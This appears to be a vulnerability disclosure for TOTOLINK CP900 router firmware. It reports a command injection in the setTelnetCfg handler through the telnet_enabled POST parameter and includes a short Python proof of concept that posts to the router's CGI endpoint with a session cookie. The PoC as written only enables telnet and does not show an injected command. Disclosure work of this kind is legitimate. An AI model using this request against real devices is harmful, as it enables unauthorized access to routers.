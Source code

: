 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：http://www.totolink.cn/data/upload/20210720/5bee10397c082b0419cbad3eb7d1bd97.zip

## Affected version

CP900 V6.3c.566

## Vulnerability details

In the CP900 V6.3c.566 firmware has a command injection vulnerability in the `setTelnetCfg` function. The `v5` variable receives the `telnet_enabled` parameter from a POST request. However, since the user can control the input of `telnet_enabled`, the telnet service can cause a command injection vulnerability.

![image-20240723210448686](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240723210448686.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"telnet_enabled":"1", "topicurl":"setting/setTelnetCfg"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240719233900221](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719233900221.png)
